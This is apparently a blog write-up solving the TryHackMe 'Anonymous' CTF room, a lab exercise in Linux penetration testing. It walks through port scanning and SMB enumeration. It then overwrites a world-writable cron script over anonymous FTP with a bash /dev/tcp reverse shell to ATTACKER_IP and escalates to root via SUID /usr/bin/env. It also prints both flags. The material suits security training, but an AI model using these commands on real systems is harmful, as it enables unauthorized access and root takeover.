


| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Anonymous ||

Anonymous is a beginner-friendly Linux boot-to-root box that chains three classic mistakes: an FTP server that allows anonymous login, a cleanup script sitting in a world-writable directory that root's cron keeps running, and a stray SUID bit on `/usr/bin/env`. Nothing here needs a public exploit; the whole path is enumeration plus two well-known abuse primitives. If you like this style of Linux privesc, the [battery walkthrough](/post/thm-room-battery/) goes from an XXE read to root, and [Beach Bar](/post/thm-room-beach-bar/) is another reverse-shell-to-root box worth pairing with it.

## Reconnaissance: four open ports

A full `nmap` service and script scan is the starting point:

```
nmap -sC -sV -p21,22,139,445 10.81.146.80

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

A full `-p-` sweep confirms nothing else is listening, so the machine exposes **4** open ports. Port 21 runs **ftp** (vsftpd), and the pair on ports 139 and 445 is **smb** (Samba). The FTP banner is the most interesting line, because the scan also flags the anonymous login and a writable directory:

```
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```

## SMB enumeration: the pics share

Samba is advertised, so the next step is listing the shares. There is no `smbclient` on the attacking host in this run, so `nmap`'s `smb-enum-shares` script does the job as the guest account:

```
nmap -p445 --script smb-enum-shares 10.81.146.80

|   \\10.81.146.80\pics:
|     Comment: My SMB Share Directory for Pics
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
```

The share on the user's machine is called **pics**, and its path leaks the local username: `namelessone`. The share itself only holds a couple of images, but the path confirms who owns the home directory we are about to target.

## Anonymous FTP and the writable cron script

The FTP service allows anonymous login, and the `scripts` directory is world-writable (`drwxrwxrwx`). Listing and pulling its contents shows why that matters:

```
curl "ftp://10.81.146.80/scripts/" --user anonymous:anonymous

-rwxr-xrwx  1 1000 1000  314 Jun 04 2020  clean.sh
-rw-rw-r--  1 1000 1000 1419 Nov 13 17:19  removed_files.log
-rw-r--r--  1 1000 1000   68 May 12 2020  to_do.txt
```

Three details line up into a privilege path. `clean.sh` is world-writable (`-rwxr-xrwx`). `removed_files.log` carries a very recent timestamp and keeps growing with "nothing to delete" lines, which means something is running `clean.sh` on a schedule. And `to_do.txt` all but narrates the misconfiguration:

```
I really need to disable the anonymous login...it's really not safe
```

`clean.sh` itself is a harmless cleanup stub, but because it is owned by uid 1000 (`namelessone`) and runs on that user's cron, overwriting it hands us command execution as `namelessone`. The room hint points out that `nc` on the box will not behave the way you expect, so a bash `/dev/tcp` reverse shell is the reliable choice. I replace `clean.sh` with a one-liner that calls back to my listener:

```
cat > clean.sh <<'EOF'
#!/bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
EOF

curl -T clean.sh "ftp://10.81.146.80/scripts/clean.sh" --user anonymous:anonymous
```

With `nc -lv 4444` waiting, the next cron tick runs the script and a shell lands. One note for macOS attackers: BSD `netcat` listens with `nc -lv 4444`, not the Linux `nc -lvnp 4444` form, which rejects the port argument. Once connected, the user flag is sitting in the home directory:

```
whoami
namelessone

cat /home/namelessone/user.txt
90d6f992585815ff991e68748c414740
```



**user.txt is `90d6f992585815ff991e68748c414740`.**



## Privilege escalation: SUID /usr/bin/env

With a shell as `namelessone`, the fastest privesc check is the SUID binary list:

```
find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/env
```

`/usr/bin/env` carries the SUID root bit, which is not a default on Ubuntu and is the intended root path. This is a textbook [GTFOBins](https://gtfobins.github.io/gtfobins/env/) entry: `env` can run an arbitrary program, and with the `-p` flag the spawned shell keeps the elevated effective UID instead of dropping it. Pointing it at bash gives a root-level shell:

```
ls -l /usr/bin/env
-rwsr-xr-x 1 root root 35000 Jan 18 2018 /usr/bin/env

/usr/bin/env /bin/bash -p -c "id; cat /root/root.txt"
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) ...
4d930091c31a622a7ed10f27999af363
```

The `euid=0(root)` is the proof: the real UID is still `namelessone`, but the effective UID is root, which is all that is needed to read `/root/root.txt`.



**root.txt is `4d930091c31a622a7ed10f27999af363`.**

## Takeaways

Two lessons carry well beyond this room. First, a writable file is only half the story; what makes `clean.sh` dangerous is that a scheduled job keeps executing it as another user. When you find a world-writable script, the useful question is always "who runs this, and when", and a log file with fresh timestamps is the giveaway. Second, SUID enumeration should compare against a known-good baseline: `/usr/bin/env` looks ordinary in a long list, so knowing that it is not normally SUID is what turns a line of `find` output into a root shell. GTFOBins is the reference for which of those binaries convert a stray SUID bit into privilege escalation.

Room solved 100%: 1 task, 6 answers.
